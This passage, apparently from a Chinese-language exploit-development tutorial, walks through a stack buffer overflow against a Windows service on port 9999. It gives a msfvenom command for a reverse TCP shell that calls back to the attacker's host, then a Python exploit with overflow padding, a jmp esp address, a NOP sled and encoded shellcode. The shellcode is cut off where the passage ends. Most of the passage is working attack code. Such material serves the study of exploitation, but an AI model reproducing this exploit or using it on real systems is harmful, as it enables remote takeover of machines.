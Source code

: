 1.  现在我们准备插入我们的 shellcode。让我们使用 Metasploit Framework 创建一个：

```
$ msfvenom -a x86 -platform Windows -p windows/shell_reverse_tcp LHOST=172.16.89.1 LPORT=4321 -b '\x00' -f python
```

1.  这个命令生成一个反向 TCP shell，连接回我的攻击机器的端口`4321`：

![](img/00315.jpeg)

1.  因此，我们的最终 exploit 应该是这样的：

```
#!/usr/bin/python
import socket
server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)

junk = 'A'*2006             \\ Junk value to overflow the stack

eip = '\x32\x31\xd9\x7d'    \\ jmp esp

nops = '\x90'*64    \\ To make sure that jump will be inside our shellcode

shellcode = ""
shellcode += "\xbb\x6e\x66\xf1\x4c\xd9\xe9\xd9\x74\x24\xf4\x5a\x2b"
shellcode += "\xc9\xb1\x52\x31\x5a\x12\x83\xea\xfc\x03\x34\x68\x13"
shellcode += "\xb9\x34\x9c\x51\x42\xc4\x5d\x36\xca\x21\x6c\x76\xa8"
shellcode += "\x22\xdf\x46\xba\x66\xec\x2d\xee\x92\x67\x43\x27\x95"
shellcode += "\xc0\xee\x11\x98\xd1\x43\x61\xbb\x51\x9e\xb6\x1b\x6b"
shellcode += "\x51\xcb\x5a\xac\x8c\x26\x0e\x65\xda\x95\xbe\x02\x96"
shellcode += "\x25\x35\x58\x36\x2e\xaa\x29\x39\x1f\x7d\x21\x60\xbf"
shellcode += "\x7c\xe6\x18\xf6\x66\xeb\x25\x40\x1d\xdf\xd2\x53\xf7"
shellcode += "\x11\x1a\xff\x36\x9e\xe9\x01\x7f\x19\x12\x74\x89\x59"
shellcode += "\xaf\x8f\x4e\x23\x6b\x05\x54\x83\xf8\xbd\xb0\x35\x2c"
```